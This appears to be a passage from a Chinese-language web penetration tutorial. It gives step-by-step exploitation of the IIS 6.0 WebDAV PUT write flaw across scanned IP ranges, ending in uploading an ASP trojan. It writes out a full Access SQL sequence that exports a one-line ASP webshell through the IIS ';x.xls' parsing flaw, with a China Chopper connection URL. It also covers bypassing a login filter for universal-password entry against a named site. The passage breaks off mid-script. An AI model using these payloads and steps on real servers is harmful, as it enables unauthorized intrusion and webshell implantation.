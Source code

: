 注意admin一定要是存在的表段，如果返回正常，说明网站和数据库是在同一服务器，如果不正常则说明是站库分离的。


### 0x30 iis6.0 PUT写入漏洞 

利用工具：IIS PUT Scaner、桂林老兵IIS写权限利用程序

1、IIS来宾用户对网站文件夹有写入权限

2、web服务器扩展力设置webDAV为允许，即：WebDAV—打勾

3、网站主目录:写入—打勾(可PUT)

4、网站主目录:脚本资源访问—打勾（可COPY、MOVE）

大家都清楚，写权限就是允许PUT，与网站自身运行的权限无丝毫联系，如果开启了，就是没有一点安全意识，就给我们提供了大大的方便。

首先用御剑工具扫下C段，比如：12.12.12.1 – 12.12.12.255 打开IIS PUT Scaner，把12.12.12.1放在Start IP 这里，12.12.12.255放在End IP 这里，

接着在Port这里，换成80，点击Scan开始嗅探，当PUT这里显示是Yes就说明存在漏洞，可以右键选择PUT file，输入文件名1.txt，下面填内容，保存就可以写入了。

或是利用“桂林老兵IIS写权限利用程序”也可以，这款工具比较强大，把域名填写进去，例如：www.xxx.com，然后在请求文件那里输入你的文件名，

在数据包格式那里选择PUT，有的会直接弹出浏览文件框，没有就自己选择，在下面，然后点击提交数据库即可，一般是先PUT一个txt文件，再MOVE成asp木马。

直接提交asp木马的话，如果MOVE方法不行，可以试试Copy。


### 0x31 ACCESS执行SQL语句导出一句话拿webshell

原理大致和php网站的outfile差不多，在access后台其他方法不能拿到webshell，但是后台有SQL语句查询执行，就可以直接access导出一句话拿webshell了。不过需要知道物理路径才能导出，利用IIS的解析漏洞导出EXCEL文件拿到webshell，因为ACCESS数据库不允许导出其他危险格式，我们导出为EXCEL后在利用IIS解析漏洞就可以变成我们的木马了。

点“服务器信息探测”，获得网站路径：e:\web\webshellcc\的EXCEL 点“系统管理”-》“自定义执行SQL”，试一下，能够执行的话可以用access导一句话拿下shell。

create table cmd (a varchar(50)) 建立一个有一个A字段的表 表名为cmd 字段类型为字符 长度为50

insert into cmd (a) values (‘<%execute request(chr(35))%>’) 在表cmd的a字段插入密码为#的一句话木马

select * into [a] in ‘e:\web\webshellcc\1.asa;x.xls’ ‘excel 4.0;’ from cmd 把cmd表a的内容导出到路径e:\web\webshellcc\的EXCEL文件

drop table cmd 删除建立的cmd表

菜刀连接：http://www.xxx.com/1.asa;x.xls


### 0x31 利用过滤’or’=’or’修改代码进行绕过

例如后台地址是：http://www.hdminc.net/admin/admin_index.asp

当用万能密码登录的时候，会出现一些过滤or的提示！

请右键查看源文件，另存为桌面 XX.html，然后打开找到以下这段代码，进行删除！

<script language=”javascript”>

function chencklogin()

{

if(document.login.username.value==”)
